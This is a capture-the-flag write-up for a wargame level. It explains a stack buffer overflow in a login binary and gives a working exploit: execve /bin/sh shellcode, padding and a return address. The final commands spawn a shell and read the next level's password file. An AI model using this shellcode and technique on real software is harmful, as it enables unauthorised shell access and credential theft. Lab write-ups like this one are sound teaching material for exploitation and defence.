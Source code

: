 # Level 01

## Initial Context

- One file: `level01`

## Solving the Challenge

The program asks for a username and a password.
By decompiling the code, we can see the values, but it will lead nowhere to put the correct one.

Since there is no `/bin/sh` in the strings, we need to use a shell code.

The second (password) input has a buffer of `64 bytes`, but `fgets` allows us to read up to `100 bytes`, allowing for a buffer overflow.

Using a [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can find an offset of `80 bytes` after which the `instruction pointer` is overwritten.

Since we need to know where to redirect the `instruction pointer`, we need to locate the `password buffer`.
This can be done using `ltrace` and watching `fgets`'s return value.

```bash
$ ltrace ./level01
....
puts("********* ADMIN LOGIN PROMPT ***")     = 39
printf("Enter Username: ")                   = 16
fgets("dat_wil\n", 256, 0xf7fcfac0)          = 0x0804a040
puts("verifying username....\n")             = 24
puts("Enter Password: ")                     = 17
fgets(x"x\n", 100, 0xf7fcfac0)               = 0xffffd6ec # this one
puts("nope, incorrect password...\n")        = 29
...
```

The payload is pretty simple:

```python
# pass the first input
print "dat_wil";

# shell code of 24 bytes
print "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

# padding of 56 bytes
+ "A" * 56

# address of the local password buffer (0xffffd6ec) in LE
+ "\xec\xd6\xff\xff"
```

We need to store the payload to a file and send it to the vulnerable program:

```bash
$ python -c 'print "dat_wil"; print "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * 56 + "\xec\xd6\xff\xff"' > /tmp/exploit01
$ cat /tmp/exploit01 - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
<flag>
```
